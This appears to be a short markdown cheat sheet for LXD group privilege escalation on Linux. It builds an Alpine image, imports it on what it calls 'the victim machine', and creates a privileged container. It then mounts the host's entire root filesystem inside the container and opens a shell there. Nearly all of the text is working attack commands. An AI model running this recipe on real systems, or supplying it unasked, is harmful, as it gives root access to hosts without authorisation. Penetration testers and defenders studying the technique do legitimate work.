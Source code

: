# build a simple alpine image

```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

# import the image

```bash
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.
```

# lxc check
Before running the image, start and configure the lxd storage pool as default.
Check if init was successful maybe its needed to disable ipv6.

```bash
lxd init
```

# run the image

```bash
lxc init myimage mycontainer -c security.privileged=true
```

# mount the /root into the image

```bash
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

# interact with the container

```bash
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

